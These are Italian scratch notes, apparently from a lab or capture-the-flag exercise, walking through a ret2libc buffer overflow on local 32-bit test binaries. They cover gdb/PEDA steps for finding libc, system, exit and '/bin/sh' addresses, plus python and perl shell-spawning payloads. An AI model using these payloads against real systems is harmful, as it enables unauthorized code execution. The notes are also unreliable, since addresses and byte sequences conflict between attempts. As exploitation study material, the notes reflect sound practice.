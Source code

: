 Cosa fare:

Prima di tutto ldd bin/binario per vedere path di libc.so.6
poi : strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep -i '/bin/sh' (ce lo salviamo come 0x..)
poi: gdb -q bin/binario
gdb break main
gdb r
gdb vmmap
prendiamoci lo start di libc.so

poi: sommiamo lo starti di libc.so e la stringa /bin/sh
printf "0x%x\n" $((0xf7deb000 + 0x16a23e))
vediamo se l'abbiamo copiato bene:
gdb -q bin/binario
gdb break main
gdb r
gdb x/s 0x... se esce /bin/sh è ok
dopodichè gdb p system
gdb p exit
gdb q
poi reverse di system address : raddr -a 0xf7e2c540
reverse di /bin/sh (quello sommato) : raddr -a 0xf7e2c540
reverse di return address (exit) : raddr -a 0xf7e2c540
dopodichè:
python -c 'print "A"*256 + "B"*4 + "\x00\x3c\xdc\xf7" + "\xe0\x0b\xe0\xf7" + "\xaa\xda\xf4\xf7"' | ./ret2libc
dove 256 è la grandezza del buffer, il primo parametro è system address, exit address, bin/sh address


0x17eaaa bin/sh

0xf7dcf000 lib ok

printf "0x%x\n" $((0xf7dcc000 + 0x17eaaa))
0xf7f4aaaa \xaa\xaa\xf4\xf7

0xf7e0dc00 system \x00\xdc\xe0\xf7

0xf7e00be0 exit \xe0\x0b\xe0\xf7

python -c 'print "A"*256 + "B"*4 + "\x00\xdc\xe0\xf7" + "\xe0\x0b\xe0\xf7" + "\xaa\xda\xf4\xf7"' | ./sof



NOTA:
fai gdb filepattern create 300 payload , run $(cat payload), r, Ti prendi il valore esadecimale dell'EIP e poi fai, pattern offset 0xVALORE_EIP, e ti dà l'offset che è il valore per cui devi moltiplicare A



riproviamo:

0xf7dcf000

somma 0xf7f4daaa /bin/sh \xaa\xda\xf4\xf7

system 0xf7e0dc00 \x00\xdc\xe0\xf7
exit 0xf7e00be0 \xe0\x0b\xe0\xf7


sof $(perl -e 'print "A" x 260 . "\x00\xdc\xe0\xf7" . "\xe0\x0b\xe0\xf7" . "\xaa\xda\xf4\xf7"')


./sof $(perl -e 'print "A" x 264 . "\x00\xdc\xe0\xf7" . "\xe0\x0b\xe0\xf7" . "\xaa\xda\xf4\xf7"')


PEDA:
gdb binario
gdb pattern create 300 payload
gdb run $(cat payload)
pattern offset 0x64254148



system 0xf7e0dc00 \x00\xdc\xe0\xf7
exit 0xf7e00be0 \xe0\x0b\xe0\xf7
binsh 0x17eaaa

0xf7dcc000

printf "0x%x\n" $((0xf7dcc000 + 0x17eaaa)) = 0xf7f4aaaa \xaa\xaa\xf4\xf7


./sof (python -c 'print "A"*264+"\x00\xdc\xe0\xf7"+"\xe0\x0b\xe0\xf7"+"\xaa\xaa\xf4\xf7"')

